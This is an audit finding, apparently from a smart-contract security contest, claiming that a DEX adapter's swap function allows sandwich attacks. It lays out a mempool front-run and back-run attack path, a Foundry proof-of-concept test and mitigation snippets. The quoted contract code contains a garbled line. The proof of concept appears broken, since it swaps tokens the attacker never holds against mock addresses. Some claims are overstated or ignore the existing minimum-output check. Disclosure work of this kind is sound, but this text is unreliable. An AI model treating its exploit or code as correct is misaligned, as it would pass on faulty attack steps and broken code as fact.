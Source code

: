 Stale Porcelain Kestrel

High

# Attacker manipulates token prices to exploit users via Sandwich Attack

## **Summary**  
The lack of price impact checks in `CamelotDexAdapter` will cause a **Sandwich Attack** for users, as an attacker will **front-run a victim’s swap by purchasing a large amount of tokens, causing the price to rise, and then back-run by selling the tokens at a higher price after the victim's trade is executed**. This results in **significant slippage and financial loss for the victim**.  

---

## **Root Cause**  
In [CamelotDexAdapter.sol](https://github.com/sherlock-audit/2025-01-peapods-finance/blob/d28eb19f4b39d3db7997477460f9f9c76839cb0c/contracts/contracts/dex/CamelotDexAdapter.sol#L32-L54), the function `swapV2Single()` does **not validate price impact before executing the swap**, making it vulnerable to **price manipulation by MEV bots or malicious traders**.  

Example of the affected function:  
```solidity
function swapV2Single(
    address _tokenIn,
    address _tokenOut,
    uint256 _amountIn,
    uint256 _amountOutMin,
    address _recipient
) external override returns (uint256 _amountOut) {
    uint256 _outBefore = IERC20(_tokenOut).balanceOf(_recipient);
    
    if (_amountIn == 0) {
        _amountIn = IERC20(_tokenIn).balanceOf(address(this));
    } else {
        IERC20(_tokenIn).safeTransferFrom(_msgSender(), address(this), _amountIn);
    }

    add](2);
    _path[0] = _tokenIn;
    _path[1] = _tokenOut;

    IERC20(_tokenIn).safeIncreaseAllowance(V2_ROUTER, _amountIn);
    
    ICamelotRouter(V2_ROUTER).swapExactTokensForTokensSupportingFeeOnTransferTokens(
        _amountIn, _amountOutMin, _path, _recipient, address(this), block.timestamp
    );

    return IERC20(_tokenOut).balanceOf(_recipient) - _outBefore;
}
```
### **Issue**:  
- The function **does not check the price impact before or after swapping**, allowing attackers to manipulate token prices.  
- There is **no validation** that ensures the **victim's trade will not be negatively impacted**.  
- Since it uses `swapExactTokensForTokensSupportingFeeOnTransferTokens()`, the attacker can **force slippage** and **extract value from the victim**.  

---

## **Attack Path**  

1. **Attacker monitors pending transactions in the mempool** and finds a victim’s swap trade.  
2. **Attacker submits a front-running transaction**:  
   - Buys a large amount of `_tokenIn` to increase the price of `_tokenOut`.  
3. **Victim's transaction executes**:  
   - The victim buys `_tokenOut` at a **higher price**, leading to **high slippage and loss**.  
4. **Attacker submits a back-running transaction**:  
   - Sells `_tokenOut` at a higher price than before, **profiting from the victim’s trade**.  
5.  **Attacker profits from the victim’s slippage loss**.  

---

## **Impact**  
- **Victims suffer a financial loss** due to slippage and price manipulation.  
- **Attackers gain profits by forcing the victim to buy at a higher price and sell at a lower price**.  
- **Users may lose trust in the DEX and contract due to high slippage and unfair trades**.  

---

## Proof of Concept (PoC)
The following test simulates a **Sandwich Attack** on `CamelotDexAdapter`:  

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Test.sol";
import "../contracts/CamelotDexAdapter.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract SandwichAttackTest is Test {
    CamelotDexAdapter dexAdapter;
    IERC20 tokenIn;
    IERC20 tokenOut;
    address victim;
    address attacker;
    address recipient;
    
    function setUp() public {
        dexAdapter = new CamelotDexAdapter(
            IV3TwapUtilities(address(0x1234)), // Mock contract
            address(0x5678), // Mock V2 Router
            address(0x9ABC)  // Mock V3 Router
        );

        tokenIn = IERC20(address(0x1111)); 
        tokenOut = IERC20(address(0x2222));

        victim = address(0x3333);
        attacker = address(this);
        recipient = address(0x4444);

        deal(address(tokenIn), attacker, 10000 ether);
        deal(address(tokenIn), victim, 100 ether);
    }

    function testSandwichAttack() public {
        uint256 amountInVictim = 100 ether;
        uint256 amountOutMinVictim = 90 ether;

        // 1. Attacker Front-runs
        tokenIn.approve(address(dexAdapter), 5000 ether);
        dexAdapter.swapV2Single(address(tokenIn), address(tokenOut), 5000 ether, 0, attacker);

        // 2. Victim Executes Swap
        vm.prank(victim);
        tokenIn.approve(address(dexAdapter), amountInVictim);
        dexAdapter.swapV2Single(address(tokenIn), address(tokenOut), amountInVictim, amountOutMinVictim, victim);

        // 3. Attacker Back-runs
        dexAdapter.swapV2Single(address(tokenOut), address(tokenIn), 5000 ether, 0, attacker);

        // 4. Verify Attacker Profit
        uint256 attackerProfit = tokenIn.balanceOf(attacker);
        assert(attackerProfit > 10000 ether);
    }
}
```
---

## **Mitigation Strategies**  

### **1. Implement Slippage Protection**  
Ensure that the price impact does not exceed a set threshold (e.g., 5%) before and after the swap.  

```solidity
uint256 priceBefore = getPrice(_tokenIn, _tokenOut);
...
uint256 priceAfter = getPrice(_tokenIn, _tokenOut);
require(priceAfter >= priceBefore * 95 / 100, "Price manipulated");
```
**Effectiveness**: Prevents severe price manipulation.  

---

### **2. Use Private RPCs (Flashbots, Eden Network, MEV Blocker)**  
Send transactions **privately** to avoid exposure in the public mempool.  
**Effectiveness**: Completely eliminates front-running by keeping transactions hidden.  

---

### 3. Monitor Liquidity Changes Before Execution
Check that the liquidity pool reserves have not been **significantly altered** before executing the swap.  

```solidity
(uint112 reserve0Before, uint112 reserve1Before) = getReserves(_pool);
...
(uint112 reserve0After, uint112 reserve1After) = getReserves(_pool);
require(reserve0After >= reserve0Before * 95 / 100, "Reserve manipulated");
```
**Effectiveness**: Prevents attacks that rely on extreme price swings.  